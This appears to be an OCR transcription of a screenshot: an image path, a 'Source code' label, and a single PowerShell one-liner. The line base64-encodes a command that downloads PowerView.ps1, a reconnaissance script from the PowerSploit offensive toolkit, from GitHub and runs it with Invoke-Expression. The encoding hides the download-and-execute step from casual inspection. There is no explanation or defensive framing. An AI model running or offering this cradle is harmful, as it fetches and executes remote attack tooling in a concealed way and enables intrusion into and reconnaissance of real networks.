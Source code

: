 $e='aXdyIGh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9Qb3dlclNoZWxsTWFmaWEvUG93ZXJTcGxvaXQvcmVmcy9oZWFkcy9tYXN0ZXIvUmVjb24vUG93ZXJWaWV3LnBzMSAtVXNlQmFzaWNQYXJzaW5nIHwg
aWV4';iex([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($e)))
